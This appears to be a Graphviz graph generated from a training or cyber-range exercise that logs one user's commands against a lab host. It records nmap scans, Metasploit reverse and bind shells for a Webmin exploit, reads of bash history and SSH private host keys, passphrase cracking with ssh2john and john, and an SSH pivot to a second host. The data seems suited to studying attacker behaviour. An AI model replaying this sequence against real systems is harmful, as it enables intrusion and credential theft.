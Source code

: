 // creating graph for user: 42
digraph {
	node [shape=box]
	0 [label="nmap --help A0 A1 "]
	1 [label="nmap -p1-65535 172.18.1.5 M0 "]
	10 [label="setg A6 "]
	14 [label="use windows/meterpreter/reverse_tcp A4 "]
	17 [label="setg LHOST 10.1.135.83 M6 "]
	20 [label="setg LPORT 28605 A6 "]
	25 [label="use auxiliary/scanner/portscan/tcp A4 "]
	26 [label="set RHOSTS 172.18.1.5 V6 "]
	27 [label="set THREADS 24 V6 "]
	28 [label="set PORTS 50000 V6 "]
	29 [label="run -j M8 "]
	30 [label="db_nmap --min-hostgroup 96 -T4 -A -v -n 172.18.1.5 V0 "]
	31 [label="show exploits V8 "]
	33 [label="use auxiliary/scanner/portscan/tcp A4 "]
	34 [label="set RHOSTS 172.18.1.5 V6 "]
	35 [label="set THREADS 24 V6 "]
	36 [label="set PORTS 50000 V6 "]
	37 [label="run -j V8 "]
	38 [label="msfconsole M2 "]
	39 [label="set RHOSTS 172.18.1.5 V6 "]
	40 [label="show A5 "]
	41 [label="show all A5 "]
	42 [label="show A5 "]
	43 [label="set exploit V8 "]
	44 [label="set exploit 2019-15107 V8 "]
	46 [label="db_nmap --min-hostgroup 96 -T4 -A -v -n 172.18.1.5 V0 "]
	47 [label="use exploit/multi/handler V8 "]
	48 [label="set LHOST 0.0.0.0 V6 "]
	49 [label="set PAYLOAD generic/shell_reverse_tcp V6 "]
	50 [label="set LPORT 14718 A6 "]
	51 [label="set ExitOnSession false A6 A10 "]
	52 [label="exploit -j V8 "]
	53 [label="use exploit/47230 V8 "]
	54 [label="set RHOSTS 172.18.1.5 V6 "]
	55 [label="set TARGETURI / A6 "]
	56 [label="set TARGET 0 A6 "]
	57 [label="set LHOST 10.1.135.83 V6 "]
	58 [label="set LPORT 11265 A6 "]
	59 [label="set PAYLOAD generic/shell_bind_tcp V6 "]
	60 [label="set RPORT 80 V6 "]
	61 [label="set SSL 0 A6 "]
	62 [label="exploit -j V8 "]
	63 [label="use exploit/47230 V8 "]
	64 [label="set RHOSTS 172.18.1.5 V6 "]
	65 [label="set TARGETURI / A6 "]
	66 [label="set TARGET 0 A6 "]
	67 [label="set LHOST 10.1.135.83 V6 "]
	68 [label="set LPORT 2139 A6 "]
	69 [label="set PAYLOAD generic/shell_bind_tcp V6 "]
	70 [label="set RPORT 10000 V6 "]
	71 [label="set SSL 0 A6 "]
	72 [label="exploit -j V8 "]
	75 [label="use exploit/47230 V8 "]
	76 [label="set RHOSTS  V6 "]
	77 [label="set TARGETURI / A6 "]
	78 [label="set TARGET 0 A6 "]
	79 [label="set LHOST 10.1.135.83 V6 "]
	80 [label="set LPORT 26069 A6 "]
	81 [label="set PAYLOAD generic/shell_bind_tcp V6 "]
	82 [label="set RPORT 10000 V6 "]
	83 [label="set SSL 0 A6 "]
	84 [label="exploit -j V8 "]
	85 [label="use exploit/multi/handler V8 "]
	86 [label="set LHOST 10.1.135.83 V6 "]
	87 [label="set LPORT 8871 A6 "]
	88 [label="set PAYLOAD generic/shell_reverse_tcp V6 "]
	89 [label="set ExitOnSession false A6 A10 "]
	90 [label="exploit -j V8 "]
	93 [label="use exploit/47230 V8 "]
	94 [label="set RHOSTS 172.18.1.5 V6 "]
	95 [label="set TARGETURI / A6 "]
	96 [label="set TARGET 0 A6 "]
	97 [label="set LHOST 10.1.135.83 V6 "]
	98 [label="set LPORT 17595 A6 "]
	99 [label="set PAYLOAD generic/shell_bind_tcp V6 "]
	100 [label="set RPORT 10000 V6 "]
	101 [label="set SSL 0 A6 "]
	102 [label="exploit -j V8 "]
	107 [label="sessions -c 3 ls A10 "]
	108 [label="sessions 3 -c ls A10 "]
	110 [label="sessions 3 -c ls A10 "]
	123 [label="sessions 3 -c less WARNING-READ-ME.txt M9 "]
	124 [label="sessions 3 -c ls A10 "]
	130 [label="sessions -c search history A3 "]
	131 [label="sessions -c find history A10 "]
	132 [label="sessions -c find *.bash_history M10 "]
	133 [label="sessions -c find -name *.bash_history V10 "]
	135 [label="sessions -c ls A10 "]
	138 [label="sessions -c ls A10 "]
	139 [label="sessions 3 -c less .bash_history M11 "]
	146 [label="sessions 3 -c find -name ssh V10 "]
	147 [label="sessions 3 -c cd /etc/ssh A16 "]
	149 [label="sessions 3 -c less ssh_host_rsa_key A9 A11 A12 A16 A17 "]
	150 [label="openssh A16 "]
	151 [label="ssh A16 "]
	152 [label="ssh -i /root/ssh M16 "]
	156 [label="ssh -i /root/desktop/ssh V16 "]
	157 [label="less /desktop/ssh A9 A11 A12 A16 A17 "]
	159 [label="less /root/desktop/ssh A9 A11 A12 A16 A17 "]
	160 [label="less /root/Desktop/ssh A9 A11 A12 A16 A17 "]
	161 [label="ssh -i /root/Desktop/ssh 10.1.17.4 V16 "]
	162 [label="sessions 3 -c less ssh_host_ecdsa_key.pub A9 A11 A12 A16 A17 "]
	163 [label="ssh -i /root/Desktop/sshpub 10.1.17.4 V16 "]
	164 [label="sessions 3 -c less ssh_host_ecdsa_key A9 A11 A12 A16 A17 "]
	165 [label="ssh -i /root/Desktop/ssh 10.1.17.4 V16 "]
	166 [label="ssh A16 "]
	167 [label="ssh -i /root/Desktop/ssh 10.1.17.4 V16 "]
	168 [label="sessions 3 -c less ssh_config A9 A11 A12 A16 A17 "]
	169 [label="ssh -i /etc/ssh/ssh_comp 10.1.17.4 V16 "]
	170 [label="chmod 600 /etc/ssh/ssh_comp M15 "]
	171 [label="ssh -i /etc/ssh/ssh_comp 10.1.17.4 V16 "]
	172 [label="sessions 3 -c cd /usr/bin/ssh A16 "]
	173 [label="sessions 3 -c ls A10 "]
	174 [label="sessions 3 -c less sshd_config A9 A11 A12 A16 A17 "]
	175 [label="sessions 3 -c ls A10 "]
	176 [label="sessions 3 -c less ssh_host_ecdsa_key A9 A11 A12 A16 A17 "]
	178 [label="sessions -c find -fname ecdsa A10 "]
	179 [label="sessions -c find -name ecdsa V10 "]
	180 [label="sessions -c find -name ecdsa_key V10 "]
	181 [label="sessions -c find -fname *ecdsa_key A10 "]
	182 [label="sessions -c find -fname ssh_host_ecdsa_key A10 A16 "]
	184 [label="sessions -c ls A10 "]
	185 [label="python ssh2john.py M13 "]
	186 [label="python ssh2john.py /etc/ssh/ssh_comp V13 "]
	187 [label="python ssh2john.py --help V13 "]
	188 [label="python ssh2john.py V13 "]
	189 [label="python ssh2john.py V13 "]
	190 [label="python ssh2john.py /root/Desktop/ssh_comp V13 "]
	191 [label="john --wordlist rockyou.txt /root/Desktop/john M14 "]
	192 [label="john --wordlist /root/Desktop/john V14 "]
	193 [label="john --wordlist /usr/share/wordlists/rockyou.txt /root/Desktop/john V14 "]
	194 [label="ssh -i /etc/ssh/ssh_comp 10.1.17.4 V16 "]
	195 [label="ssh -i /usr/Desktop/ssh_comp 10.1.17.4 V16 "]
	196 [label="ssh -i /root/Desktop/ssh_comp 10.1.17.4 V16 "]
	197 [label="chmod 600 /root/Desktop/ssh_comp V15 "]
	198 [label="ssh -i /root/Desktop/ssh_comp 10.1.17.4 V16 "]
	0 -> 1 [constraint=false]
	1 -> 10 [constraint=false]
	10 -> 14 [constraint=false]
	14 -> 17 [constraint=false]
	17 -> 20 [constraint=false]
	20 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 110 [constraint=false]
	110 -> 123 [constraint=false]
	123 -> 124 [constraint=false]
	124 -> 130 [constraint=false]
	130 -> 131 [constraint=false]
	131 -> 132 [constraint=false]
	132 -> 133 [constraint=false]
	133 -> 135 [constraint=false]
	135 -> 138 [constraint=false]
	138 -> 139 [constraint=false]
	139 -> 146 [constraint=false]
	146 -> 147 [constraint=false]
	147 -> 149 [constraint=false]
	149 -> 150 [constraint=false]
	150 -> 151 [constraint=false]
	151 -> 152 [constraint=false]
	152 -> 156 [constraint=false]
	156 -> 157 [constraint=false]
	157 -> 159 [constraint=false]
	159 -> 160 [constraint=false]
	160 -> 161 [constraint=false]
	161 -> 162 [constraint=false]
	162 -> 163 [constraint=false]
	163 -> 164 [constraint=false]
	164 -> 165 [constraint=false]
	165 -> 166 [constraint=false]
	166 -> 167 [constraint=false]
	167 -> 168 [constraint=false]
	168 -> 169 [constraint=false]
	169 -> 170 [constraint=false]
	170 -> 171 [constraint=false]
	171 -> 172 [constraint=false]
	172 -> 173 [constraint=false]
	173 -> 174 [constraint=false]
	174 -> 175 [constraint=false]
	175 -> 176 [constraint=false]
	176 -> 178 [constraint=false]
	178 -> 179 [constraint=false]
	179 -> 180 [constraint=false]
	180 -> 181 [constraint=false]
	181 -> 182 [constraint=false]
	182 -> 184 [constraint=false]
	184 -> 185 [constraint=false]
	185 -> 186 [constraint=false]
	186 -> 187 [constraint=false]
	187 -> 188 [constraint=false]
	188 -> 189 [constraint=false]
	189 -> 190 [constraint=false]
	190 -> 191 [constraint=false]
	191 -> 192 [constraint=false]
	192 -> 193 [constraint=false]
	193 -> 194 [constraint=false]
	194 -> 195 [constraint=false]
	195 -> 196 [constraint=false]
	196 -> 197 [constraint=false]
	197 -> 198 [constraint=false]
	rankdir=LR
}
